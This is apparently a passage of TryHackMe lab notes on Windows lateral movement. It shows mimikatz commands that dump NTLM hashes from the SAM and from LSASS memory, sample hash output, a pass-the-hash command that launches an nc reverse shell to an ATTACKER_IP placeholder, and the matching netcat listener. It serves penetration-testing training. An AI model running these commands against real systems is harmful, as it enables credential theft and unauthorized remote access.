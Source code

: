 THMJMP2: Powershell
```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 145e02c50333951f71d13c245d352b50
```

### Extracting NTLM hashes from LSASS memory:
This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.

THMJMP2: Powershell
```shell-session
mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484
```

We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:
```shell-session
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:{bob.jenkins} /domain:{za.tryhackme.com} /ntlm:{6b4a57f67805a663c818106dc0648484} /run:"c:\tools\nc64.exe -e cmd.exe {ATTACKER_IP} {5555}"
```

*Note*:*
	We used `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work.

This would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

To receive the reverse shell, we should run a reverse listener on our attacking machine:
```shell-session
user@AttackBox$ nc -lvp 5555
```
